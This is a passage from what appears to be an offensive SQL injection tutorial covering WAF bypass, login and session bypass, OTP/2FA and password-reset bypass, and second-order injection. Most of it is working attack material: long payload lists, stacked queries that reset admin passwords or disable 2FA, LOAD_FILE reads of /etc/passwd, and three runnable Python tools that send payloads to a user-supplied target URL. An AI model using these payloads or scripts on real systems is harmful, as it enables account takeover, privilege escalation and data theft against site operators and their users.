                if any(keyword in response.text.lower() for keyword in ['error', 'syntax', 'mysql', 'postgresql', 'oracle', 'mssql']):
                    print(f"{Fore.GREEN}[✓] Bypassed - {description} ({enc_name})")
                    self.successful_bypasses.append({
                        'description': description,
                        'payload': enc_payload,
                        'encoding': enc_name,
                        'status': response.status_code
                    })
                    return True
                
                print(f"{Fore.YELLOW}[?] Unknown - {description} ({enc_name})")
                
        except Exception as e:
            print(f"{Fore.RED}[!] Error: {str(e)}")
        
        return False
    
    def run_tests(self):
        """Run all bypass tests"""
        print(f"{Fore.CYAN}{'='*70}")
        print(f"{Fore.CYAN}WAF Bypass Testing Tool")
        print(f"{Fore.CYAN}{'='*70}\n")
        print(f"{Fore.CYAN}Target: {self.url}")
        print(f"{Fore.CYAN}Parameter: {self.param}\n")
        
        # Test payloads
        payloads = {
            # Basic tests
            "Basic single quote": "1'",
            "Basic UNION": "1' UNION SELECT NULL--",
            
            # Case variations
            "Case variation 1": "1' UnIoN SeLeCt NULL--",
            "Case variation 2": "1' uNiOn sElEcT NULL--",
            
            # Comment obfuscation
            "Inline comments": "1'/**/UNION/**/SELECT/**/NULL--",
            "MySQL comment": "1'/*!50000UNION*//*!50000SELECT*/NULL--",
            "Nested comments": "1'/*/**/ UNION /**/ /**/SELECT/**/ NULL--",
            
            # Whitespace alternatives
            "Tab whitespace": "1'%09UNION%09SELECT%09NULL--",
            "Newline whitespace": "1'%0AUNION%0ASELECT%0ANULL--",
            "Mixed whitespace": "1'%09UN%0AION%0BSE%0CLECT%0DNULL--",
            
            # Encoding
            "Double URL encoding": "1%2527%2520UNION%2520SELECT%2520NULL--",
            "Hex encoding": "1' UNION SELECT 0x4e554c4c--",
            
            # Function alternatives
            "MID instead of SUBSTRING": "1' AND MID(version(),1,1)='5'--",
            "SCHEMA instead of DATABASE": "1' UNION SELECT SCHEMA()--",
            
            # String concatenation
            "MySQL concat": "1' UNION SELECT CONCAT('a','b')--",
            "MSSQL concat": "1' UNION SELECT 'a'+'b'--",
            
            # Alternative syntax
            "OR with ||": "1' || '1'='1'--",
            "AND with &&": "1' && '1'='1'--",
            
            # Buffer techniques
            "NULL bytes": "1' UNION SELECT NULL%00--",
            "Large payload": "1' UNION SELECT NULL--" + "A"*1000,
            
            # HPP
            "HPP attempt": "1&id=2' UNION SELECT NULL--",
            
            # Scientific notation
            "Scientific notation": "1' UNION SELECT 1e1--",
            
            # Version-specific
            "MySQL version comment": "1'/*M!50000UNION SELECT*/NULL--",
            
            # Advanced
            "Hex + comment": "1'/**/UNION/**/SELECT/**/0x61646d696e--",
            "Double keyword": "1' UNUNIONION SELSELECTECT NULL--",
            
            # Time-based
            "Time delay MySQL": "1' AND SLEEP(5)--",
            "Time delay MSSQL": "1'; WAITFOR DELAY '00:00:05'--",
            
            # Boolean
            "Boolean true": "1' AND '1'='1'--",
            "Boolean false": "1' AND '1'='2'--",
        }
        
        print(f"{Fore.YELLOW}[*] Testing {len(payloads)} bypass techniques...\n")
        
        for description, payload in payloads.items():
            self.test_payload(payload, description)
            time.sleep(0.5)  # Rate limiting
        
        # Summary
        print(f"\n{Fore.CYAN}{'='*70}")
        print(f"{Fore.CYAN}Summary")
        print(f"{Fore.CYAN}{'='*70}\n")
        
        if self.successful_bypasses:
            print(f"{Fore.GREEN}[+] Successful bypasses: {len(self.successful_bypasses)}\n")
            for bypass in self.successful_bypasses:
                print(f"{Fore.GREEN}  ✓ {bypass['description']}")
                print(f"    Payload: {bypass['payload'][:100]}")
                print(f"    Encoding: {bypass['encoding']}")
                print(f"    Status: {bypass['status']}\n")
        else:
            print(f"{Fore.RED}[-] No successful bypasses found")
        
        # Save results
        if self.successful_bypasses:
            with open('waf_bypass_results.txt', 'w') as f:
                for bypass in self.successful_bypasses:
                    f.write(f"Description: {bypass['description']}\n")
                    f.write(f"Payload: {bypass['payload']}\n")
                    f.write(f"Encoding: {bypass['encoding']}\n")
                    f.write(f"Status: {bypass['status']}\n")
                    f.write("-" * 50 + "\n")
            
            print(f"{Fore.CYAN}[*] Results saved to waf_bypass_results.txt")


def main():
    parser = argparse.ArgumentParser(description='WAF Bypass Testing Tool')
    parser.add_argument('-u', '--url', required=True, help='Target URL')
    parser.add_argument('-p', '--param', default='id', help='Parameter name (default: id)')
    
    args = parser.parse_args()
    
    tester = WAFBypassTester(args.url, args.param)
    tester.run_tests()


if __name__ == "__main__":
    main()
```

**Usage:**

```bash
python waf_bypass.py -u "http://target.com/page.php" -p "id"

# Output:
# ======================================================================
# WAF Bypass Testing Tool
# ======================================================================
# 
# Target: http://target.com/page.php
# Parameter: id
# 
# [*] Testing 30 bypass techniques...
# 
# [✗] Blocked - Basic single quote (Raw)
# [✗] Blocked - Basic UNION (Raw)
# [✓] Bypassed - Case variation 1 (URL Encoded)
# [✓] Bypassed - Inline comments (Double URL Encoded)
# ...
# 
# ======================================================================
# Summary
# ======================================================================
# 
# [+] Successful bypasses: 5
# 
#   ✓ Case variation 1
#     Payload: 1%27%20UnIoN%20SeLeCt%20NULL--
#     Encoding: URL Encoded
#     Status: 200
# 
#   ✓ Inline comments
#     Payload: 1%2527%252F%252A%252A%252F%2520UNION%252F%252A%252A%252F%2520SELECT...
#     Encoding: Double URL Encoded
#     Status: 200
# 
# [*] Results saved to waf_bypass_results.txt
```

---

## 🔓 Chapter 17: Authentication Bypass

### Understanding Authentication Mechanisms

```
Common Authentication Methods:
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
1. Form-Based (Username/Password)
2. HTTP Basic Authentication
3. Session-Based (Cookies)
4. Token-Based (JWT, OAuth)
5. Multi-Factor Authentication (MFA/2FA)
6. Certificate-Based
7. Biometric
8. SSO (Single Sign-On)

SQLi Attack Vectors:
✓ Login form credentials check
✓ Session validation queries
✓ Password reset flows
✓ Remember me functionality
✓ Account lockout mechanisms
✓ OTP/2FA validation
```

### Login Form Bypass Techniques

#### Technique 1: Classic Authentication Bypass

```sql
# Typical vulnerable login query
SELECT * FROM users WHERE username='$user' AND password='$pass'

# Attack payloads

# Username field:
admin'--
admin' #
admin'/*
' OR '1'='1
' OR '1'='1'--
' OR '1'='1'/*
' OR '1'='1'#
admin') OR ('1'='1
admin') OR '1'='1'--
' OR 1=1--
' OR 1=1#
' OR 1=1/*
admin' OR 'x'='x
admin' OR username='admin
' UNION SELECT 'admin','admin'--

# Password field (often ignored due to comment):
anything
' OR '1'='1
[empty]

# Both fields:
Username: admin' OR '1'='1'--
Password: [anything]

Username: ' OR '1'='1
Password: ' OR '1'='1

Username: admin
Password: ' OR '1'='1'--
```

#### Technique 2: Database-Specific Bypasses

**MySQL:**
```sql
# Comment styles
admin'--
admin' #
admin'/*

# NULL comparison
admin' OR password IS NOT NULL--
admin' OR username='admin

# UNION-based
' UNION SELECT 'admin','5f4dcc3b5aa765d61d8327deb882cf99'--
# Where hash = MD5('password')

# String functions
admin' AND SUBSTRING(password,1,1)='*'--

# Boolean tricks
admin' AND '1'='1
admin' OR '1'='1
```

**MSSQL:**
```sql
# Comment style
admin'--
admin'/**/--

# System functions
' OR SYSTEM_USER='admin'--
' OR USER_NAME()='admin'--

# Stacked queries
admin'; EXEC sp_password NULL,'newpass','admin'--

# String concatenation
admin' AND password='pass'+'word'--
```

**PostgreSQL:**
```sql
# Comment
admin'--

# Type casting
admin'::text--

# String concat
admin' AND password='pass'||'word'--
```

**Oracle:**
```sql
# Must use FROM dual
admin' AND '1'='1' FROM dual--
admin' OR '1'='1' FROM dual--

# ROWNUM
admin' AND ROWNUM=1--

# NULL comparison
admin' OR username IS NOT NULL--
```

#### Technique 3: Advanced Logic Manipulation

```sql
# Tautology-based (always true)
' OR '1'='1
' OR 'a'='a
' OR 1=1
' OR 2=2
admin' OR username='admin
admin' OR 1=1-- 

# Negation-based
admin' AND NOT 1=2--
admin' AND 1!=2--

# Mathematical
' OR 1+1=2--
' OR 5-2=3--

# String comparison
' OR 'aa'>'a'--
' OR 'ab'<'b'--

# Regular expressions (MySQL)
admin' OR username REGEXP '.*'--
admin' OR username LIKE '%'--

# Substring match
admin' OR SUBSTRING(username,1,1)>'a'--
```

### Complex Authentication Scenarios

#### Scenario 1: Hash-Based Authentication

```sql
# Application hashes password before query
# Query: SELECT * FROM users WHERE username='admin' AND password=MD5('input')

# Can't bypass with OR because hash is calculated first
# Solution: Bypass username check

# Payload:
Username: admin' AND '1'='1'--
Password: [anything]

# Query becomes:
SELECT * FROM users WHERE username='admin' AND '1'='1'-- AND password=MD5('anything')

# Or use UNION to return crafted row:
Username: ' UNION SELECT 'admin', MD5('password'), 'admin@site.com'--
Password: password

# Query becomes:
SELECT * FROM users WHERE username='' 
UNION SELECT 'admin', MD5('password'), 'admin@site.com'--' 
AND password=MD5('password')
# Returns our crafted admin row
```

#### Scenario 2: Multiple Field Validation

```sql
# Query checks multiple fields
SELECT * FROM users 
WHERE username='$user' 
  AND password='$pass' 
  AND status='active'
  AND role='user'

# Bypass by commenting out extra checks:
Username: admin'--
Password: [anything]

# Or manipulate each condition:
Username: admin' AND status='active
Password: ' OR '1'='1'--

# Query becomes:
SELECT * FROM users 
WHERE username='admin' AND status='active' 
  AND password='' OR '1'='1'--' 
  AND status='active'
  AND role='user'
```

#### Scenario 3: Stored Procedure Authentication

```sql
# Application calls stored procedure
EXEC sp_authenticate 'username', 'password'

# Injection in procedure call:
EXEC sp_authenticate 'admin'--', 'anything'

# Or create return value manipulation:
EXEC sp_authenticate 'admin' AND 1=1--', 'anything'

# MSSQL-specific:
# If procedure vulnerable internally:
Username: admin'; EXEC sp_password NULL,'newpass','admin'--
```

#### Scenario 4: Case-Sensitive Authentication

```sql
# Some databases are case-sensitive

# MySQL (default case-insensitive)
Username: ADMIN    # Matches 'admin'
Username: Admin    # Matches 'admin'

# PostgreSQL (case-sensitive by default)
Username: admin    # Only matches exact case
Username: ADMIN    # Different from 'admin'

# Bypass case sensitivity:
Username: admin' OR LOWER(username)='admin'--
Username: admin' OR UPPER(username)='ADMIN'--
```

### Session-Based Authentication Bypass

#### Technique 1: Session Cookie Manipulation

```sql
# If session ID is checked via SQL
SELECT * FROM sessions WHERE session_id='$cookie_value'

# Cookie injection:
Cookie: session_id=abc123' OR '1'='1

# Crafted session:
Cookie: session_id=' UNION SELECT 'admin_session', 'admin', NOW()--

# Session fixation via SQLi:
'; INSERT INTO sessions (session_id, user_id) VALUES ('fixed_session', 1)--
```

#### Technique 2: Remember Me Token Bypass

```sql
# Remember me token validation
SELECT * FROM users WHERE remember_token='$token'

# Token manipulation:
Token: ' OR '1'='1'--
Token: ' UNION SELECT 'admin','admin@email.com','admin_token'--

# If token generation uses SQL:
'; UPDATE users SET remember_token='known_token' WHERE username='admin'--
```

### OTP/2FA Bypass via SQLi

#### Technique 1: OTP Validation Bypass

```sql
# OTP validation query
SELECT * FROM otp_codes 
WHERE user_id='$id' 
  AND code='$otp' 
  AND expires_at > NOW()

# Bypass OTP check:
OTP: ' OR '1'='1'--
OTP: ' OR expires_at > NOW()--

# Bypass user_id check:
User ID: 1' OR user_id=1--

# Combined:
OTP: ' OR user_id=(SELECT id FROM users WHERE username='admin')--
```

#### Technique 2: OTP Brute Force via SQLi

```sql
# If OTP is numeric (6 digits)
# Use SQL to check without lockout

# Check if OTP starts with '1':
OTP: ' OR code LIKE '1%'--

# Narrow down:
OTP: ' OR code LIKE '12%'--
OTP: ' OR code LIKE '123%'--

# Complete extraction:
OTP: ' OR code REGEXP '^123456$'--
```

#### Technique 3: Bypass 2FA Entirely

```sql
# If 2FA status stored in database
UPDATE users SET two_factor_enabled=0 WHERE username='victim'

# Injection to disable 2FA:
Username: admin'; UPDATE users SET two_factor_enabled=0 WHERE username='admin'--

# Or bypass check:
# Query: SELECT * FROM users WHERE username='admin' AND two_factor_enabled=1
Username: admin' OR two_factor_enabled=0 OR '1'='1'--
```

### Password Reset Bypass

#### Technique 1: Reset Token Bypass

```sql
# Password reset validation
SELECT * FROM password_resets 
WHERE email='$email' 
  AND token='$token' 
  AND created_at > DATE_SUB(NOW(), INTERVAL 1 HOUR)

# Bypass token check:
Token: ' OR '1'='1'--
Token: ' OR email='admin@site.com'--

# Bypass time check:
Token: ' OR created_at IS NOT NULL--

# Complete bypass:
Email: admin@site.com
Token: ' OR email='admin@site.com' AND '1'='1'--
```

#### Technique 2: Email Enumeration

```sql
# Check if email exists in password reset
POST /reset-password
{
  "email": "admin@site.com' OR '1'='1"
}

# Error-based enumeration:
Email: test@test.com' AND (SELECT COUNT(*) FROM users WHERE email='admin@site.com')=1--
# If error: Email exists
# If no error: Email doesn't exist
```

### Authentication Bypass Testing Script

```python
#!/usr/bin/env python3
"""
Authentication Bypass Testing Tool
Tests various SQLi-based auth bypass techniques
"""

import requests
import time
from colorama import Fore, Style, init

init(autoreset=True)

class AuthBypassTester:
    def __init__(self, url, username_field='username', password_field='password'):
        self.url = url
        self.username_field = username_field
        self.password_field = password_field
        self.successful_bypasses = []
        
    def test_payload(self, username, password, description):
        """Test authentication bypass payload"""
        try:
            data = {
                self.username_field: username,
                self.password_field: password
            }
            
            response = requests.post(self.url, data=data, timeout=5)
            
            # Check for successful authentication indicators
            success_indicators = [
                'welcome',
                'dashboard',
                'logout',
                'profile',
                'admin',
                'session',
                'authenticated'
            ]
            
            failure_indicators = [
                'invalid',
                'incorrect',
                'failed',
                'denied',
                'error'
            ]
            
            response_lower = response.text.lower()
            
            # Check if successful
            if any(indicator in response_lower for indicator in success_indicators):
                if not any(indicator in response_lower for indicator in failure_indicators):
                    print(f"{Fore.GREEN}[✓] SUCCESS - {description}")
                    self.successful_bypasses.append({
                        'description': description,
                        'username': username,
                        'password': password,
                        'status': response.status_code
                    })
                    return True
            
            print(f"{Fore.RED}[✗] FAILED - {description}")
            return False
            
        except Exception as e:
            print(f"{Fore.RED}[!] ERROR - {description}: {str(e)}")
            return False
    
    def run_tests(self):
        """Run comprehensive authentication bypass tests"""
        print(f"{Fore.CYAN}{'='*70}")
        print(f"{Fore.CYAN}Authentication Bypass Testing Tool")
        print(f"{Fore.CYAN}{'='*70}\n")
        print(f"{Fore.CYAN}Target: {self.url}\n")
        
        # Test payloads
        payloads = [
            # Basic bypasses
            ("admin'--", "password", "Admin with comment"),
            ("admin' #", "password", "Admin with hash comment"),
            ("admin'/*", "password", "Admin with C-style comment"),
            
            # OR-based bypasses
            ("admin' OR '1'='1", "password", "OR tautology 1"),
            ("admin' OR '1'='1'--", "password", "OR tautology with comment"),
            ("' OR '1'='1", "' OR '1'='1", "OR in both fields"),
            ("admin' OR 1=1--", "password", "OR numeric tautology"),
            
            # AND-based
            ("admin' AND '1'='1'--", "password", "AND tautology"),
            
            # NULL-based
            ("admin' OR password IS NOT NULL--", "anything", "NULL check bypass"),
            
            # UNION-based
            ("' UNION SELECT 'admin','pass'--", "pass", "UNION injection"),
            ("' UNION SELECT 'admin','5f4dcc3b5aa765d61d8327deb882cf99'--", "password", "UNION with MD5"),
            
            # Username enumeration
            ("admin') OR ('1'='1", "password", "Parenthesis bypass"),
            ("admin')) OR (('1'='1", "password", "Double parenthesis bypass"),
            
            # Alternative syntax
            ("admin' || '1'='1'--", "password", "OR with ||"),
            ("admin' && '1'='1'--", "password", "AND with &&"),
            
            # Boolean variations
            ("admin' OR 'a'='a'--", "password", "Char comparison"),
            ("admin' OR 1=1#", "password", "Numeric with hash"),
            
            # Multiple conditions
            ("admin' AND 1=1--", "password", "Simple AND"),
            ("admin' AND 'x'='x'--", "password", "String AND"),
            
            # Case variations
            ("ADMIN'--", "password", "Uppercase username"),
            ("AdMiN'--", "password", "Mixed case username"),
            
            # Without username
            ("' OR '1'='1'--", "password", "Empty username with OR"),
            
            # Advanced
            ("admin' OR username='admin'--", "password", "Self-referential"),
            ("admin' OR password LIKE '%'--", "anything", "LIKE wildcard"),
        ]
        
        print(f"{Fore.YELLOW}[*] Testing {len(payloads)} bypass techniques...\n")
        
        for username, password, description in payloads:
            self.test_payload(username, password, description)
            time.sleep(0.5)  # Rate limiting
        
        # Summary
        print(f"\n{Fore.CYAN}{'='*70}")
        print(f"{Fore.CYAN}Summary")
        print(f"{Fore.CYAN}{'='*70}\n")
        
        if self.successful_bypasses:
            print(f"{Fore.GREEN}[+] Successful bypasses: {len(self.successful_bypasses)}\n")
            for bypass in self.successful_bypasses:
                print(f"{Fore.GREEN}  ✓ {bypass['description']}")
                print(f"    Username: {bypass['username']}")
                print(f"    Password: {bypass['password']}")
                print(f"    Status: {bypass['status']}\n")
        else:
            print(f"{Fore.RED}[-] No successful bypasses found")
        
        # Save results
        if self.successful_bypasses:
            with open('auth_bypass_results.txt', 'w') as f:
                for bypass in self.successful_bypasses:
                    f.write(f"Description: {bypass['description']}\n")
                    f.write(f"Username: {bypass['username']}\n")
                    f.write(f"Password: {bypass['password']}\n")
                    f.write(f"Status: {bypass['status']}\n")
                    f.write("-" * 50 + "\n")
            
            print(f"{Fore.CYAN}[*] Results saved to auth_bypass_results.txt")


def main():
    import argparse
    
    parser = argparse.ArgumentParser(description='Authentication Bypass Testing Tool')
    parser.add_argument('-u', '--url', required=True, help='Login URL')
    parser.add_argument('--username-field', default='username', help='Username field name')
    parser.add_argument('--password-field', default='password', help='Password field name')
    
    args = parser.parse_args()
    
    tester = AuthBypassTester(args.url, args.username_field, args.password_field)
    tester.run_tests()


if __name__ == "__main__":
    main()
```

**Usage:**

```bash
python auth_bypass.py -u "http://target.com/login.php"

# With custom field names
python auth_bypass.py -u "http://target.com/login" --username-field "user" --password-field "pass"
```
## 🔄 Chapter 18: Second-Order SQL Injection

### Understanding Second-Order SQLi

```
What is Second-Order SQL Injection?
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
Unlike first-order SQLi where the payload executes immediately,
second-order SQLi involves two stages:

Stage 1: STORAGE
  - Malicious payload is stored in database
  - Usually through INSERT or UPDATE
  - No immediate execution

Stage 2: EXECUTION
  - Stored payload is retrieved and used in SQL query
  - Executes in different context
  - Often in different functionality

Example Flow:
1. User registers with username: admin'--
2. Data stored in database as-is
3. Later, application retrieves username for query
4. Query breaks: SELECT * FROM posts WHERE author='admin'--'

Why It's Dangerous:
✗ Harder to detect (no immediate effect)
✗ Bypasses input validation at entry point
✗ Often escapes WAF detection
✓ Can affect multiple functionalities
```

### Common Second-Order Scenarios

#### Scenario 1: User Registration → Profile Update

```sql
# Stage 1: Registration (payload stored)
POST /register
{
  "username": "admin'--",
  "email": "test@test.com",
  "password": "password123"
}

# Database INSERT:
INSERT INTO users (username, email, password) 
VALUES ('admin'--', 'test@test.com', 'hashed_password')
# Stored successfully!

# Stage 2: Profile Update (payload executes)
# When user updates their profile:
UPDATE users 
SET email='new@email.com' 
WHERE username='admin'--'
# The -- comments out the rest, potentially breaking query logic!

# Could update wrong user or cause other issues
```

**Real Exploitation:**

```sql
# Stage 1: Register with malicious username
Username: admin', email='hacker@evil.com', password='newpass' WHERE username='admin'--

# Stored as:
INSERT INTO users (username, email, password) VALUES 
('admin', email='hacker@evil.com', password='newpass' WHERE username='admin'--', 
'test@test.com', 'hash')

# Stage 2: Update profile
UPDATE users 
SET bio='My new bio' 
WHERE username='admin', email='hacker@evil.com', password='newpass' WHERE username='admin'--'

# Result: Changes admin's email and password!
```

#### Scenario 2: Comment/Post Creation → Display

```sql
# Stage 1: Create post with malicious content
POST /create-post
{
  "title": "Test Post",
  "content": "test' OR '1'='1",
  "author_id": 5
}

# Stored in database:
INSERT INTO posts (title, content, author_id) 
VALUES ('Test Post', 'test'' OR ''1''=''1', 5)
# Some escaping may occur, but content is stored

# Stage 2: Search functionality
# Later, when searching posts:
SELECT * FROM posts 
WHERE content LIKE '%test' OR '1'='1%'
# Returns all posts!

# Or in comment display:
SELECT username FROM users 
WHERE id=(SELECT author_id FROM posts WHERE content='test' OR '1'='1')
# Executes attacker's payload
```

#### Scenario 3: Shopping Cart → Order Processing

```sql
# Stage 1: Add product to cart with malicious quantity
POST /cart/add
{
  "product_id": 1,
  "quantity": "1' OR price=0--",
  "user_id": 123
}

# Stored:
INSERT INTO cart_items (product_id, quantity, user_id) 
VALUES (1, '1'' OR price=0--', 123)

# Stage 2: Calculate total during checkout
SELECT SUM(price * quantity) FROM cart_items 
JOIN products ON cart_items.product_id = products.id 
WHERE user_id=123 AND quantity='1' OR price=0--'
# Changes price calculation!
```

#### Scenario 4: File Upload → File Download

```sql
# Stage 1: Upload file with malicious name
POST /upload
{
  "filename": "document' UNION SELECT password FROM users WHERE username='admin'--",
  "file_data": "..."
}

# Stored:
INSERT INTO files (filename, user_id, upload_date) 
VALUES ('document'' UNION SELECT password FROM users WHERE username=''admin''--', 
123, NOW())

# Stage 2: Download file
SELECT file_path FROM files 
WHERE filename='document' UNION SELECT password FROM users WHERE username='admin'--'
# Extracts admin password instead of file path!
```

### Identifying Second-Order SQLi

#### Detection Technique 1: Time-Based Payloads

```sql
# Stage 1: Insert time-delay payload
Username: admin' AND SLEEP(10)--
Email: test@test.com
Password: password123

# Stage 2: Trigger in different functionality
# If application hangs for 10 seconds when:
# - Viewing profile
# - Updating settings
# - Generating reports
# Then second-order SQLi exists!

# Example payloads for different databases:
MySQL: admin' AND SLEEP(10)--
MSSQL: admin'; WAITFOR DELAY '00:00:10'--
PostgreSQL: admin'; SELECT pg_sleep(10)--
Oracle: admin' AND DBMS_LOCK.SLEEP(10)--
```

#### Detection Technique 2: Error-Based Payloads

```sql
# Stage 1: Insert error-generating payload
Username: admin' AND EXTRACTVALUE(1,CONCAT(0x7e,VERSION()))--
Bio: test' AND CAST(@@version AS int)--
Comment: test' OR 1=CAST(version() AS int)--

# Stage 2: Look for errors in:
# - Profile pages
# - Search results
# - Admin panels
# - Reports
# - Email notifications
# - PDF generation

# Indicators:
# - SQL syntax errors in unexpected places
# - Database version in error messages
# - Different error messages than first-order testing
```

#### Detection Technique 3: Boolean-Based Payloads

```sql
# Stage 1: Insert boolean payloads
# True payload:
Username: admin' AND '1'='1

# False payload:
Username: admin' AND '1'='2

# Stage 2: Compare behaviors
# If TRUE payload shows content but FALSE doesn't:
# - Profile loads vs doesn't load
# - Posts appear vs don't appear
# - Features work vs don't work
# Then second-order SQLi exists!

# Example test:
# Account 1: username = test' AND 'a'='a
# Account 2: username = test' AND 'a'='b

# Compare behaviors across different features
```

### Exploiting Second-Order SQLi

#### Exploitation Technique 1: Data Extraction via Display

```sql
# Stage 1: Create user with UNION payload
POST /register
{
  "username": "hacker' UNION SELECT table_name FROM information_schema.tables--",
  "email": "hacker@evil.com",
  "password": "password"
}

# Stage 2: View user list or profile
# When admin views user list:
SELECT username, email, created_at FROM users ORDER BY username

# With our injected username:
SELECT username, email, created_at FROM users 
WHERE username='hacker' UNION SELECT table_name FROM information_schema.tables--'
ORDER BY username

# Result: Table names displayed in user list!
```

#### Exploitation Technique 2: Privilege Escalation

```sql
# Stage 1: Update profile with privilege escalation
POST /profile/update
{
  "bio": "My bio', role='admin' WHERE username='hacker'--"
}

# Query:
UPDATE users 
SET bio='My bio', role='admin' WHERE username='hacker'--' 
WHERE user_id=123

# Result: User becomes admin!

# Alternative:
# Stage 1: Register with payload
Username: hacker', role='admin'--

# INSERT:
INSERT INTO users (username, email, password, role) 
VALUES ('hacker', role='admin'--', 'email', 'pass', 'user')
# Might set role to admin depending on query construction
```

#### Exploitation Technique 3: Account Takeover

```sql
# Stage 1: Create comment with UPDATE payload
POST /posts/1/comment
{
  "content": "Nice post'; UPDATE users SET password='$2a$10$NewHashHere' WHERE username='admin'--"
}

# Stored in database:
INSERT INTO comments (post_id, content, user_id) 
VALUES (1, 'Nice post''; UPDATE users SET password=''$2a$10$NewHashHere'' WHERE username=''admin''--', 5)

# Stage 2: Admin moderation or comment processing
# If application processes comments in batch:
DELIMITER //
CREATE PROCEDURE process_comment(comment_id INT)
BEGIN
  DECLARE comment_text VARCHAR(1000);
  SELECT content INTO comment_text FROM comments WHERE id=comment_id;
  -- Process comment (vulnerable to second-order)
END//

# Or in report generation:
SELECT content FROM comments WHERE post_id=1
# Then uses content in another query
# Result: Admin password changed!
```

#### Exploitation Technique 4: File System Access

```sql
# Stage 1: Upload file with path traversal
POST /upload
{
  "filename": "doc' UNION SELECT LOAD_FILE('/etc/passwd')--",
  "description": "My file"
}

# Stage 2: File listing or download
SELECT filename, description FROM files WHERE user_id=123

# With UNION:
SELECT filename, description FROM files 
WHERE filename='doc' UNION SELECT LOAD_FILE('/etc/passwd')--'

# Result: Contents of /etc/passwd displayed in file list
```

### Advanced Second-Order Techniques

#### Technique 1: Polyglot Payloads

```sql
# Payload that works in multiple contexts
Username: admin'--%20%23%0A/*

# Breaks down as:
# admin'     - Closes string
# --         - SQL comment (MSSQL, Oracle, PostgreSQL)
# %20        - Space
# #          - MySQL comment
# %0A        - Newline
# /*         - C-style comment start

# Works in various query contexts:
# MySQL: admin'-- # /*
# MSSQL: admin'-- # /*
# Oracle: admin'-- # /*
```

#### Technique 2: Time-Delayed Execution

```sql
# Stage 1: Insert payload with specific trigger
Username: admin' AND IF((SELECT COUNT(*) FROM users)>10,SLEEP(5),0)--

# Stage 2: Trigger only executes when condition is met
# - During user count queries
# - In analytics
# - In admin dashboards

# This helps identify WHERE the second-order injection occurs
```

#### Technique 3: Stored XSS + SQLi Combo

```sql
# Stage 1: Insert payload with both XSS and SQLi
Comment: <script>alert(1)</script>' UNION SELECT password FROM users--

# Stage 2a: XSS executes when comment is displayed
# Stage 2b: SQLi executes if comment is used in query

# Example:
# Display query:
SELECT content FROM comments WHERE post_id=1
# Shows: <script>alert(1)</script>' UNION SELECT password FROM users--
# XSS executes in browser

# Search query:
SELECT * FROM comments WHERE content LIKE '%<script>alert(1)</script>' UNION SELECT password FROM users--%'
# SQLi executes on server
```

### Second-Order SQLi Testing Script

```python
#!/usr/bin/env python3
"""
Second-Order SQL Injection Testing Tool
Tests for delayed SQL injection vulnerabilities
"""

import requests
import time
import re
from colorama import Fore, Style, init
import argparse

init(autoreset=True)

class SecondOrderTester:
    def __init__(self, register_url, trigger_urls):
        self.register_url = register_url
        self.trigger_urls = trigger_urls
        self.test_accounts = []
        self.vulnerabilities = []
        
    def create_test_account(self, username, email, password):
        """Create test account with payload"""
        try:
            data = {
                'username': username,
                'email': email,
                'password': password
            }
            
            response = requests.post(self.register_url, data=data, timeout=10)
            
            if response.status_code in [200, 201, 302]:
                print(f"{Fore.GREEN}[+] Account created: {username}")
                self.test_accounts.append({
                    'username': username,
                    'email': email,
                    'password': password
                })
                return True
            else:
                print(f"{Fore.RED}[-] Failed to create account: {username}")
                return False
                
        except Exception as e:
            print(f"{Fore.RED}[!] Error creating account: {str(e)}")
            return False
    
    def trigger_payload(self, trigger_url, account):
        """Trigger second-order execution"""
        try:
            # Login first if needed
            session = requests.Session()
            
            # Try to access trigger URL
            start_time = time.time()
            response = session.get(trigger_url, timeout=15)
            elapsed = time.time() - start_time
            
            return {
                'url': trigger_url,
                'status': response.status_code,
                'time': elapsed,
                'length': len(response.text),
                'response': response.text[:500]
            }
            
        except requests.exceptions.Timeout:
            return {
                'url': trigger_url,
                'status': 0,
                'time': 15,
                'timeout': True
            }
        except Exception as e:
            return {
                'url': trigger_url,
                'error': str(e)
            }
    
    def detect_time_based(self, result, baseline_time):
        """Detect time-based second-order SQLi"""
        if result.get('timeout'):
            return True
        
        if result.get('time', 0) >= baseline_time + 4:  # 5 second delay
            return True
        
        return False
    
    def detect_error_based(self, result):
        """Detect error-based second-order SQLi"""
        error_patterns = [
            r"SQL syntax",
            r"mysql_fetch",
            r"ORA-\d+",
            r"PostgreSQL.*ERROR",
            r"Microsoft SQL",
        ]
        
        response_text = result.get('response', '')
        
        for pattern in error_patterns:
            if re.search(pattern, response_text, re.IGNORECASE):
                return True
        
        return False
    
    def detect_boolean_based(self, true_result, false_result):
        """Detect boolean-based second-order SQLi"""
        # Compare response lengths
        true_len = true_result.get('length', 0)
        false_len = false_result.get('length', 0)
        
        if abs(true_len - false_len) > 100:  # Significant difference
            return True
        
        # Compare status codes
        if true_result.get('status') != false_result.get('status'):
            return True
        
        return False
    
    def run_tests(self):
        """Run comprehensive second-order SQLi tests"""
        print(f"{Fore.CYAN}{'='*70}")
        print(f"{Fore.CYAN}Second-Order SQL Injection Testing Tool")
        print(f"{Fore.CYAN}{'='*70}\n")
        
        # Test 1: Time-Based Detection
        print(f"{Fore.YELLOW}[*] Test 1: Time-Based Second-Order SQLi\n")
        
        time_payloads = [
            ("time_mysql", "test' AND SLEEP(5)--", "time@test.com", "password"),
            ("time_mssql", "test'; WAITFOR DELAY '00:00:05'--", "time2@test.com", "password"),
            ("time_pgsql", "test'; SELECT pg_sleep(5)--", "time3@test.com", "password"),
        ]
        
        for name, username, email, password in time_payloads:
            self.create_test_account(username, email, password)
            time.sleep(1)
        
        # Get baseline timing
        print(f"\n{Fore.CYAN}[*] Establishing baseline timing...")
        baseline_account = ("baseline", "baseline@test.com", "password")
        self.create_test_account(*baseline_account)
        
        baseline_times = []
        for trigger_url in self.trigger_urls:
            result = self.trigger_payload(trigger_url, baseline_account)
            baseline_times.append(result.get('time', 0))
        
        avg_baseline = sum(baseline_times) / len(baseline_times)
        print(f"{Fore.GREEN}[+] Baseline average: {avg_baseline:.2f}s\n")
        
        # Test time-based payloads
        for account in self.test_accounts[:-1]:  # Exclude baseline
            print(f"{Fore.CYAN}[*] Testing account: {account['username']}")
            
            for trigger_url in self.trigger_urls:
                result = self.trigger_payload(trigger_url, account)
                
                if self.detect_time_based(result, avg_baseline):
                    print(f"{Fore.RED}[!] TIME-BASED SQLI FOUND!")
                    print(f"    Account: {account['username']}")
                    print(f"    Trigger URL: {trigger_url}")
                    print(f"    Response time: {result.get('time', 0):.2f}s")
                    
                    self.vulnerabilities.append({
                        'type': 'Time-Based',
